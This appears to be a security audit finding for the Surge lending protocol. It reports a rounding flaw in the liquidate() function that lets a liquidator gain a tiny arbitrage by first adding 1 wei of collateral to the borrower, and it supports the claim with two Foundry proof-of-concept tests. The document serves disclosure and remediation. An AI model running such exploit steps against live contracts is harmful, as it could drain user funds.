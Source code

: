 8olidity

high

# Arbitrage Opportunity Exists in collateralReward

## Summary
In the `liquidate()` function, if `amount` is not equal to `type(uint).max` or not equal to `userDebt`, the final `collateralReward` will be calculated.
```solidity
if(_amount == type(uint).max || _amount == userDebt) {
    collateralReward = collateralBalance;
    _shares = debtSharesBalanceOf[_borrower];
    _amount = userDebt;
} else {
    uint userInvertedCollateralRatioMantissa = collateralBalance * 1e18 / userDebt;
    collateralReward = _amount * userInvertedCollateralRatioMantissa / 1e18; // rounds down
    _shares = tokenToShares(_amount, _currentTotalDebt, _debtSharesSupply, false);
}

```
However, since collateralBalanceOf[borrower] and _amount are controllable, an attacker can arbitrage based on these two values.
## Vulnerability Detail
For the purpose of calculation, we assume that the value of `loantoken` and `collateraltoken` are the same. First, a normal user performs a liquidation on the borrower.
```solidity
function testliquidate() public {
    uint amount = 1e18;
    uint borrowAmount = amount / 2;
    MockERC20 collateralToken = new MockERC20(amount, 18);
    MockERC20 loanToken = new MockERC20(amount * 2, 18);
    Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.5e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
    loanToken.approve(address(pool), type(uint).max);
    collateralToken.approve(address(pool), type(uint).max);
    pool.deposit(amount);
    pool.addCollateral(address(this), borrowAmount);
    pool.borrow(borrowAmount);
    vm.warp(block.timestamp + 365 days);
    pool.withdraw(0);
    uint debtAmount = pool.lastTotalDebt();
    /////////////   collateralReward: 499999999999999998
    vm.startPrank(address(0x99));
    collateralToken.mint(1);
    loanToken.mint(debtAmount-1);
    collateralToken.approve(address(pool), 1);
    loanToken.approve(address(pool), debtAmount-1);
    uint beforbal = loanToken.balanceOf(address(0x99)) + collateralToken.balanceOf(address(0x99)); // 700000000000000000
    pool.liquidate(address(this), debtAmount-1);
    vm.stopPrank();
    assertEq(pool.lastTotalDebt(), 1);
    assertEq(pool.collateralBalanceOf(address(this)), 2);
    uint afterbal = loanToken.balanceOf(address(0x99)) + collateralToken.balanceOf(address(0x99));  // 499999999999999999
}
```

We use the address `0x99` to represent the attacker. In the end, we get a `collateralReward` of `499999999999999998`, and the number of `loantoken` and `collateraltoken` changes from `700000000000000000` to `499999999999999999`.

If an attacker performs an `addCollateral()` operation on the borrower before the liquidation, let's see what happens.

```solidity
function testliquidate() public {
    uint amount = 1e18;
    uint borrowAmount = amount / 2;
    MockERC20 collateralToken = new MockERC20(amount, 18);
    MockERC20 loanToken = new MockERC20(amount * 2, 18);
    Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.5e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
    loanToken.approve(address(pool), type(uint).max);
    collateralToken.approve(address(pool), type(uint).max);
    pool.deposit(amount);
    pool.addCollateral(address(this), borrowAmount);
    pool.borrow(borrowAmount);
    vm.warp(block.timestamp + 365 days);
    pool.withdraw(0);
    uint debtAmount = pool.lastTotalDebt();
    ///////////////   collateralReward: 500000000000000000
    vm.startPrank(address(0x99));
    collateralToken.mint(1);
    loanToken.mint(debtAmount-1);
    collateralToken.approve(address(pool), 1);
    loanToken.approve(address(pool), debtAmount-1);
    uint beforbal = loanToken.balanceOf(address(0x99)) + collateralToken.balanceOf(address(0x99)); //  700000000000000000
    pool.addCollateral(address(this), 1);
    pool.liquidate(address(this), debtAmount-1);
    vm.stopPrank();
    assertEq(pool.lastTotalDebt(), 1);
    assertEq(pool.collateralBalanceOf(address(this)), 1);
    uint afterbal = loanToken.balanceOf(address(0x99)) + collateralToken.balanceOf(address(0x99)); // 500000000000000000
}
```
As we can see, although the attacker sent one extra `collateraltoken`, the final `collateralReward` is still `500000000000000000`, and the total number of  `loantoken` and `collateraltoken` is one more than the normal process, which is `500000000000000000`.
## Impact
Arbitrage Opportunity Exists in collateralReward
## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L580-L588
## Tool used

Manual Review

## Recommendation
`addCollateral()` cannot specify `to` address